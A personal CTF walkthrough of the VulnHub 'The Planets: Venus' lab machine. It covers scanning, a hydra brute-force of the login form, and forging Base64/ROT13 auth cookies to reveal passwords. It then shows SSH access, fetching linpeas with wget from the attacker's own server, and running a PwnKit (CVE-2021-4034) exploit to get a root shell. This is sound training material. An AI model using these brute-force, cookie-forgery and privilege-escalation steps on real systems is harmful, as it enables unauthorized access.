










#Venus #ThePlanets #VulnHub #Linux #Planets 

# ♀️♀️♀️  THE PLANETS - VENUS ♀️♀️♀️

### [The Planets: Venus ~ VulnHub](https://www.vulnhub.com/entry/the-planets-venus,705/)


- **Name**: The Planets: Venus
- **Date release**: 3 Jun 2021
- **Author**: [SirFlash](https://www.vulnhub.com/author/sirflash,731/)
- **Series**: [The Planets](https://www.vulnhub.com/series/the-planets,362/)

---
---
### Description

[Back to the Top](https://www.vulnhub.com/entry/the-planets-venus,705/#top)

Difficulty: Medium

Venus is a medium box requiring more knowledge than the previous box, "Mercury", in this series. There are two flags on the box: a user and root flag which include an md5 hash. This has been tested on VirtualBox so may not work correctly on VMware. Any questions/issues or feedback please email me at: SirFlash at protonmail.com

### File Information

[Back to the Top](https://www.vulnhub.com/entry/the-planets-venus,705/#top)

- **Filename**: Venus.ova
- **File size**: 1.5 GB
- **MD5**: DA991FD3414BBF8326C7FAB79D9111E2
- **SHA1**: C9313BBE4378AA55ACB9C4379F5418D8EEE0AD71

### Virtual Machine

[Back to the Top](https://www.vulnhub.com/entry/the-planets-venus,705/#top)

- **Format**: Virtual Machine (Virtualbox - OVA)
- **Operating System**: Linux

### Networking

[Back to the Top](https://www.vulnhub.com/entry/the-planets-venus,705/#top)

- **DHCP service**: Enabled
- **IP address**: Automatically assign


---

#### [The Planet: Venus || VulnHub Walkthrough (youtube.com)](https://www.youtube.com/watch?v=Mb1rG5Hp6U4)

---
# Enumeration
#netdiscover #nmap #gobuster 

`sudo netdiscover -i eth1`

```
 Currently scanning: 192.168.120.0/16   |   Screen View: Unique Hosts                     
                                                                                          
 8 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 480                          
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 0.0.0.0         0a:00:27:00:00:0a      3     180  Unknown vendor                         
 192.168.56.116  0a:00:27:00:00:0a      3     180  Unknown vendor                         
 192.168.56.100  08:00:27:27:cc:ad      1      60  PCS Systemtechnik GmbH                 
 192.168.56.117  08:00:27:18:54:5e      1      60  PCS Systemtechnik GmbH
```

The IP is:  192.168.56.117
MAC: 08:00:27:18:54:5e
Port: 
- 22/tcp - SSH - OpenSSH 8.5 (protocol 2.0)
- 8080/tcp -  http-proxy - WSGIServer/0.2 CPython/3.9.5


### NMAP

```bash
nmap -sC -sV 192.168.56.117

┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.117 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-01 19:44 CEST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 0.57 seconds
                                                                                                  
┌──(kali㉿kali)-[~]
└─$ ping 192.168.56.117                     
PING 192.168.56.117 (192.168.56.117) 56(84) bytes of data.
64 bytes from 192.168.56.117: icmp_seq=1 ttl=64 time=1.38 ms
64 bytes from 192.168.56.117: icmp_seq=2 ttl=64 time=1.06 ms
64 bytes from 192.168.56.117: icmp_seq=3 ttl=64 time=1.12 ms
64 bytes from 192.168.56.117: icmp_seq=4 ttl=64 time=0.780 ms

# Somehow Ping probes are blocked but not normal pings?
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.117 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-01 19:47 CEST
Nmap scan report for 192.168.56.117
Host is up (0.0022s latency).
Not shown: 984 filtered tcp ports (no-response), 14 filtered tcp ports (host-unreach)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.5 (protocol 2.0)
| ssh-hostkey: 
|   256 b0:3e:1c:68:4a:31:32:77:53:e3:10:89:d6:29:78:50 (ECDSA)
|_  256 fd:b4:20:d0:d8:da:02:67:a4:a5:48:f3:46:e2:b9:0f (ED25519)
8080/tcp open  http-proxy WSGIServer/0.2 CPython/3.9.5
|_http-server-header: WSGIServer/0.2 CPython/3.9.5
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Tue, 01 Oct 2024 17:48:13 GMT
|     Server: WSGIServer/0.2 CPython/3.9.5
|     Content-Type: text/html; charset=utf-8
|     X-Frame-Options: DENY
|     Content-Length: 626
|     X-Content-Type-Options: nosniff
|     Referrer-Policy: same-origin
|     <html>
|     <head>
|     <title>Venus Monitoring Login</title>
|     <style>
|     .aligncenter {
|     text-align: center;
|     label {
|     display:block;
|     position:relative;
|     </style>
|     </head>
|     <body>
|     <h1> Venus Monitoring Login </h1>
|     <h2>Please login: </h2>
|     Credentials guest:guest can be used to access the guest account.
|     <form action="/" method="post">
|     <label for="username">Username:</label>
|     <input id="username" type="text" name="username">
|     <label for="password">Password:</label>
|     <input id="username" type="text" name="password">
|     <input type="submit" value="Login">
|     </form>
|     </body>
|_    </html>
|_http-title: Venus Monitoring Login
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.94SVN%I=7%D=10/1%Time=66FC35DD%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,363,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Tue,\x2001\x20Oct\x
SF:202024\x2017:48:13\x20GMT\r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.9
SF:\.5\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nX-Frame-Options:
SF:\x20DENY\r\nContent-Length:\x20626\r\nX-Content-Type-Options:\x20nosnif
SF:f\r\nReferrer-Policy:\x20same-origin\r\n\r\n<html>\n<head>\n<title>Venu
SF:s\x20Monitoring\x20Login</title>\n<style>\n\.aligncenter\x20{\n\x20\x20
SF:\x20\x20text-align:\x20center;\n}\nlabel\x20{\n\x20\x20\x20\x20display:
SF:block;\n\x20\x20\x20\x20position:relative;\n}\n</style>\n</head>\n<body
SF:>\n<h1>\x20Venus\x20Monitoring\x20Login\x20</h1>\n<h2>Please\x20login:\
SF:x20</h2>\nCredentials\x20guest:guest\x20can\x20be\x20used\x20to\x20acce
SF:ss\x20the\x20guest\x20account\.\n<form\x20action=\"/\"\x20method=\"post
SF:\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x20\x20\x20<label\x20for=\"usernam
SF:e\">Username:</label>\n\x20\x20\x20\x20<input\x20id=\"username\"\x20typ
SF:e=\"text\"\x20name=\"username\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x20\x
SF:20\x20<label\x20for=\"password\">Password:</label>\n\x20\x20\x20\x20<in
SF:put\x20id=\"username\"\x20type=\"text\"\x20name=\"password\">\n\x20\x20
SF:\x20\x20<br\x20/>\n\x20\x20\x20\x20<input\x20type=\"submit\"\x20value=\
SF:"Login\">\n</form>\n\n</body>\n</html>\n")%r(HTTPOptions,363,"HTTP/1\.1
SF:\x20200\x20OK\r\nDate:\x20Tue,\x2001\x20Oct\x202024\x2017:48:13\x20GMT\
SF:r\nServer:\x20WSGIServer/0\.2\x20CPython/3\.9\.5\r\nContent-Type:\x20te
SF:xt/html;\x20charset=utf-8\r\nX-Frame-Options:\x20DENY\r\nContent-Length
SF::\x20626\r\nX-Content-Type-Options:\x20nosniff\r\nReferrer-Policy:\x20s
SF:ame-origin\r\n\r\n<html>\n<head>\n<title>Venus\x20Monitoring\x20Login</
SF:title>\n<style>\n\.aligncenter\x20{\n\x20\x20\x20\x20text-align:\x20cen
SF:ter;\n}\nlabel\x20{\n\x20\x20\x20\x20display:block;\n\x20\x20\x20\x20po
SF:sition:relative;\n}\n</style>\n</head>\n<body>\n<h1>\x20Venus\x20Monito
SF:ring\x20Login\x20</h1>\n<h2>Please\x20login:\x20</h2>\nCredentials\x20g
SF:uest:guest\x20can\x20be\x20used\x20to\x20access\x20the\x20guest\x20acco
SF:unt\.\n<form\x20action=\"/\"\x20method=\"post\">\n\x20\x20\x20\x20<br\x
SF:20/>\n\x20\x20\x20\x20<label\x20for=\"username\">Username:</label>\n\x2
SF:0\x20\x20\x20<input\x20id=\"username\"\x20type=\"text\"\x20name=\"usern
SF:ame\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x20\x20\x20<label\x20for=\"pass
SF:word\">Password:</label>\n\x20\x20\x20\x20<input\x20id=\"username\"\x20
SF:type=\"text\"\x20name=\"password\">\n\x20\x20\x20\x20<br\x20/>\n\x20\x2
SF:0\x20\x20<input\x20type=\"submit\"\x20value=\"Login\">\n</form>\n\n</bo
SF:dy>\n</html>\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.96 seconds
```

### Time to check the Site on port 8080

#### Venus Monitoring Login


You can login with guest:guest

### gobuster - [no filibuster](https://www.youtube.com/watch?v=3QBIydDjz2o)
```
While we are at it - Try translate "Kamala" from Finnish, it means terrible/awful
"You should never grade evils, for if one is the worst, then you might be tempted to kinship with the least" - Alright my is rant over for now
```

```bash
└─$ gobuster dir -u http://192.168.56.117:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.117:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 0] [--> /admin/]
Progress: 42023 / 220561 (19.05%)
```

If we check the admin page, this is what we get:


It will give Server Error (500) no matter what, probably because we are logged in as guest

---
# Foothold 🦶
#BurpSuite

- Open BurpSuite
- Go to the Proxy Tab
- Set Intercept to on
- Use FoxyProxy Extension on your browser... 


[Configuring Burp Suite, FoxyProxy and Firefox in Kali Linux - YouTube](https://www.youtube.com/watch?v=Rv3G6vqeB6I)

[How to configure Burp Suite with Firefox FoxyProxy on Kali Linux (youtube.com)](https://www.youtube.com/watch?v=MyJnuw7afX8)

Check proxy settings in Burp Suite and add the IP/port to FoxyProxy



Alright when you reload the page, you will get this response:

### GET Version
```http
GET / HTTP/1.1
Host: 192.168.56.117:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: auth="Z3Vlc3Q6dGhyZmc="; csrftoken=hU3XJCc6VkEdNuScBCDtrEHISUWQC8OxkwFG3AvjN79Yax7kHrGUAzBgcKegAjyE
Upgrade-Insecure-Requests: 1
```

### POST Version
```http
POST / HTTP/1.1
Host: 192.168.56.117:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.56.117:8080/
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://192.168.56.117:8080
Connection: keep-alive
Cookie: csrftoken=JlPDk8Mb6hvFH7SPg8PrkgBiVlN4IpvisGi5vN497AgWW8fwtvMhrSiZboA2MiHn
Upgrade-Insecure-Requests: 1

username=guest&password=guest
```


Right click and send it to the repeater, this is the response:

```HTTP
HTTP/1.1 200 OK
Date: Tue, 01 Oct 2024 19:10:28 GMT
Server: WSGIServer/0.2 CPython/3.9.5
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Content-Length: 450
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Set-Cookie:  auth="Z3Vlc3Q6dGhyZmc="; Path=/

<html>
<head>
<title>Venus Monitoring</title>
<style>
.aligncenter {
    text-align: center;
}
</style>
</head>
<body>
<h1 class="aligncenter"> Venus Monitoring </h1>
<p class="aligncenter">


</p>
<br />
<br />
<h2>Current status:</h2>
Temperature: 464C
<br />
Surface pressure: 93 bar
<br />
Atmospheric composition: 96.5% carbon dioxide, 3.5% nitrogen
</body>
</html>
```

If you highlight the value from the value of `auth="Z3Vlc3Q6dGhyZmc="`, you will see on the inspector tab, that Base64 is definitely has been used for the encoding. 

Username:password
guest:thrfg

[ROT13 decoder: Decrypt and convert ROT13 to text - cryptii](https://cryptii.com/pipes/rot13-decoder)

You can clearly see that the input `thrfg` gives the output `guest` with ROT13





--- 

# Exploitation 👨‍💻
#Exploitation #Hydra #RockYou #Username #Password #BruteForce #Login #LoginAttack 

First we need an invalid login attempt, to brute force the login

enumerate the username

- Open in a private tab `CTRL + Shift + P`
- write an invalid username/password
- Copy `Invalid username.`

```
hydra -L /usr/share/wordlists/rockyou.txt -p pass -s 8080 192.168.56.117 http-post-form "/:username=guest&password=guest"

hydra -L /usr/share/wordlists/rockyou.txt -p pass -s 8080 192.168.56.117 http-post-form "/:username=^USER^&password=^PASS^:Invalid username."
```



```
┌──(kali㉿kali)-[~]
└─$ hydra -L /usr/share/wordlists/rockyou.txt -p pass -s 8080 192.168.56.117 http-post-form "/:username=^USER^&password=^PASS^:Invalid username."
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-01 21:38:57
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:14344399/p:1), ~896525 tries per task
[DATA] attacking http-post-form://192.168.56.117:8080/:username=^USER^&password=^PASS^:Invalid username.
[STATUS] 2351.00 tries/min, 2351 tries in 00:01h, 14342048 to do in 101:41h, 16 active
[8080][http-post-form] host: 192.168.56.117   login: venus   password: pass
[STATUS] 2374.67 tries/min, 7124 tries in 00:03h, 14337275 to do in 100:38h, 16 active
[STATUS] 2384.71 tries/min, 16693 tries in 00:07h, 14327706 to do in 100:09h, 16 active
[STATUS] 2565.53 tries/min, 38483 tries in 00:15h, 14305916 to do in 92:57h, 16 active
[STATUS] 2499.74 tries/min, 77492 tries in 00:31h, 14266907 to do in 95:08h, 16 active
[8080][http-post-form] host: 192.168.56.117   login: magellan   password: pass
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

We got 2 logins
- venus
- magellan


---
---

## CyberChef 🧑‍🍳🤖
#CyberChef 

- Use the value of auth `auth="Z3Vlc3Q6dGhyZmc="`
- ``Z3Vlc3Q6dGhyZmc=`` is ``guest:thrfg`` From Base64
- ``venus:thrfg`` is `dmVudXM6dGhyZmc=` To Base64
-  `magellan:thrfg` is `bWFnZWxsYW46dGhyZmc=` To Base64


```HTTP
POST / HTTP/1.1
Host: 192.168.56.117:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.56.117:8080/
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://192.168.56.117:8080
Connection: keep-alive
Cookie: csrftoken=JlPDk8Mb6hvFH7SPg8PrkgBiVlN4IpvisGi5vN497AgWW8fwtvMhrSiZboA2MiHn; auth="dmVudXM6dGhyZmc="
Upgrade-Insecure-Requests: 1
```

If I understand this correctly replacing the Auth value while using the POST-request, will not work, open the site on a new page, to intercept the GET request version.


```HTTP
GET / HTTP/1.1
Host: 192.168.56.117:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: csrftoken=JlPDk8Mb6hvFH7SPg8PrkgBiVlN4IpvisGi5vN497AgWW8fwtvMhrSiZboA2MiHn; auth="dmVudXM6dGhyZmc="
Upgrade-Insecure-Requests: 1
```

- When we send this message, the response will have a different auth= with the value of `dmVudXM6aXJhaGY=` it simply does not care about the value of the password, as long the username section is correct, we will get the correct encrypted pair value of username and password.
- Repeat the step with the username ``magellan``
	- `magellan:thrfg` is `bWFnZWxsYW46dGhyZmc=`
	- We will get the value of `bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ==`

- ``dmVudXM6aXJhaGY=`` is ``venus:irahf``
- `bWFnZWxsYW46aXJhaGZ2bmF0cmJ5YnRsMTk4OQ==` is `magellan:irahfvnatrbybtl1989`






---
### The usernames & passwords - Convert From ROT13
```bash
# Before
guest:thrfg
venus:irahf
magellan:irahfvnatrbybtl1989

# After
guest:guest
venus:venus
magellan:venusiangeology1989
```

---

## SSH

#### *Now that we have the pair of username and password, it is time to find out which one has SSH access*

- magellan:venusiangeology1989 is able to login with SSH
- ssh magellan@192.168.56.117



# Privilege Escalation

- User permission Enumeration
- start with `sudo -l` to check if you are able to do sudo commands with the magellan user

### Linpeas 🫛

- Download linpeas.sh release from [GitHub](https://github.com/peass-ng/PEASS-ng/releases)
- After that, create a server with `python3 -m http.server`
- You can check your own IP with `ifconfig eth1`
- Download the file from the remote computer
- `wget "http://192.168.56.52:8000/linpeas.sh"`
- The downloaded file does not have the necessary permissions
  use the command `chmod +x linpeas.sh`
- Run the file with `./linpeas.sh`

[[Response from linpeas - Venus]]



- We will use the Vulnerability of `[CVE-2021-4034] PwnKit` 
```json
[CVE-2021-4034] PwnKit

Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
Exposure: less probable
Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

- Do the same procedure just like with linpeas.sh, download and collect it with `wget`
- unzip the file with `unzip CVE-2021-4034-main.zip`
- CD into the new folder
- cat README.txt
- We have to compile the C-code
- There is a makefile use the command `make`
- now run the binary file of `cve-2021-4034`
- You now in a root-shell, confirm by using `whoami`
- go to the `/root` directory
- cat the root_flag.txt






```
[magellan@venus CVE-2021-4034-main]$ ./cve-2021-4034
sh-5.1# whoami
root
sh-5.1# cd /root
sh-5.1# cat root_flag.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Congratulations on completing Venus!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_83588a17919eba10e20aad15081346af]
sh-5.1#   
```
